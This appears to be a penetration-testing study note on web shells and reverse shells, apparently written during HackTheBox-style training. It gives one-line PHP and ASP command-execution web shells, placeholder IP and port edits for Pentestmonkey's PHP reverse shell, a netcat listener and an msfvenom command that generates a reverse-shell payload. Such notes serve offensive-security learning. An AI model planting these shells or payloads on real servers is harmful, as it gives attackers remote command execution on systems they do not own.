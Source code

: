 ```yaml
---
title: a-Shell
draft: false
tags:
  - web-shell
---
```

## Web Shells

There are lot of good web shells online such as [phpbash](https://github.com/Arrexel/phpbash)and p0wny-shell.

SecLists also have Web-shells in the `/opt/useful/SecLists/Web-Shells` directory.

## Custom Web Shell

e.g `PHP` web shell

```php
<?php system($_REQUEST['cmd']); ?>
```

We can execute commands by:

```php
?cmd=id
```

e.g `.NET` web shell

```asp
<% eval request('cmd') %>
```

## Reverse Shell

Pentestmonkey's PHP reverse shell is well known.

When using, we have to change the following lines:

```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

Our netcat listener will intercept the incoming reverse shell connection request:

```bash
nc -lvnp OUR_PORT
```

## Custom Reverse Shell 

Sometimes `system` function is not allowed.

This is why we custom reverse shell sometimes.

We can use tools like `msfvenom` to create a reverse shell:

```shell-session
jadu101@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```


